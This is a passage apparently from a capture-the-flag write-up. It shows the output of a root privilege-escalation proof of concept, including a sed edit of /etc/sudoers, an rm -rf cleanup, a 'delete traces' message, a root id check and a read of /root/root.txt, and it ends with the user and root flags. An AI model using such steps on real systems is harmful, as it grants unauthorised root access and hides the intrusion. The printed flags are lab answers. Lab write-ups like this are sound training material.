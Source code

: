 ```bash
Waiting for norestart execution...
Ensure you remove yourself from sudoers on the poc file after
sudo sed -i '/ALL ALL=NOPASSWD: \/tmp\/poc/d' /etc/sudoers
As well as remove excess files created:
rm -rf malicious/ poc
Got shell!, delete traces in /tmp/poc, /tmp/malicious
id
uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
b9a4b6599c5fc81720d599b656d941ae
```


**User Flag:*****`bac9a55f38abbf7b1b3d3867cd36e982`***

**Root Flag:*****`b9a4b6599c5fc81720d599b656d941ae`***
